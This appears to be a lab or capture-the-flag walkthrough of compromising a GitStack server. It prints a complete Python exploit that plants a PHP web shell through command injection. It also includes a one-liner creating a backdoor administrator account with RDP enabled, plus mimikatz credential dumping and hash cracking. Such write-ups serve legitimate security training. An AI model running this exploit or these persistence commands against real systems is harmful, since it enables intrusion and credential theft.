








Using this [exploit](https://github.com/snix0/GitStack-RCE-Exploit-Shell/blob/master/exploit.py)

Ip and command are changed so that we can execute our custom command.
```python
# Original exploit code based on PoC from Kacper Szurek (https://security.szurek.pl/gitstack-2310-unauthenticated-rce.html)
import requests
from requests.auth import HTTPBasicAuth
import os
import sys

# Change IP to target
ip = '10.200.101.150'

# What command you want to execute
command = "ping -c 2 10.50.102.111"

repository = 'rce'
username = 'rce'
password = 'rce'
csrf_token = 'token'

user_list = []

print "[+] Get user list"
try:
	r = requests.get("http://{}/rest/user/".format(ip))
	user_list = r.json()
	user_list.remove('everyone')
except:
	pass

if len(user_list) > 0:
	username = user_list[0]
	print "[+] Found user {}".format(username)
else:
	r = requests.post("http://{}/rest/user/".format(ip), data={'username' : username, 'password' : password})
	print "[+] Create user"
	
	if not "User created" in r.text and not "User already exist" in r.text:
		print "[-] Cannot create user"
		os._exit(0)

r = requests.get("http://{}/rest/settings/general/webinterface/".format(ip))
if "true" in r.text:
	print "[+] Web repository already enabled"
else:
	print "[+] Enable web repository"
	r = requests.put("http://{}/rest/settings/general/webinterface/".format(ip), data='{"enabled" : "true"}')
	if not "Web interface successfully enabled" in r.text:
		print "[-] Cannot enable web interface"
		os._exit(0)

print "[+] Get repositories list"
r = requests.get("http://{}/rest/repository/".format(ip))
repository_list = r.json()

if len(repository_list) > 0:
	repository = repository_list[0]['name']
	print "[+] Found repository {}".format(repository)
else:
	print "[+] Create repository"

	r = requests.post("http://{}/rest/repository/".format(ip), cookies={'csrftoken' : csrf_token}, data={'name' : repository, 'csrfmiddlewaretoken' : csrf_token})
	if not "The repository has been successfully created" in r.text and not "Repository already exist" in r.text:
		print "[-] Cannot create repository"
		os._exit(0)

print "[+] Add user to repository"
r = requests.post("http://{}/rest/repository/{}/user/{}/".format(ip, repository, username))

if not "added to" in r.text and not "has already" in r.text:
	print "[-] Cannot add user to repository"
	os._exit(0)	

print "[+] Disable access for anyone"
r = requests.delete("http://{}/rest/repository/{}/user/{}/".format(ip, repository, "everyone"))

if not "everyone removed from rce" in r.text and not "not in list" in r.text:
	print "[-] Cannot remove access for anyone"
	os._exit(0)	

print "[+] Create backdoor in PHP"
r = requests.get('http://{}/web/index.php?p={}.git&a=summary'.format(ip, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php system($_POST[\'a\']); ?>" > c:\GitStack\gitphp\exploit.php'))
print r.text.encode(sys.stdout.encoding, errors='replace')

print "[+] Starting interactive shell"

while True:
    cmd = raw_input("$ ")

    if cmd == 'exit':
        print "Exiting shell..."
        sys.exit(0)
    else:
        r = requests.post("http://{}/web/exploit.php".format(ip), data={'a' : cmd})
        print r.text.encode(sys.stdout.encoding, errors='replace')

```
We can now execute the exploit:
```
python2.7 exploit.py
```

We now have command execution. And we are already `nt authority\system`

This machine has an active firewall so attempts to transfer files were futile.

Running this oneliner to get rdp access:
```
net user hacker Hacker123! /add & net localgroup administrators hacker /add & net localgroup "Remote Desktop Users" hacker /add & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f & netsh firewall add portopening TCP 3389 "Remote Desktop" & netsh firewall set service remoteadmin enable
```
Now connecting:
```
xfreerdp /u:hacker /p:'Hacker123!' /v:10.200.101.150 /cert-ignore /compression /auto-reconnect /drive:/home/kali/Documents/Windows,Windows +clipboard
```

And we mounted our folder with windows tools:


We can copy needed files to Downloads folder and add our user to Remote Management Users group:
```
net localgroup "Remote Management Users" hacker /add
```

now running mimikatz as Administrator by right-clicking:

We get the hash for Administrator.

We also get hashes for Thomas:


We can try cracking in crackstation:

Thomas hash can be cracked. Administrator hash was not cracked.

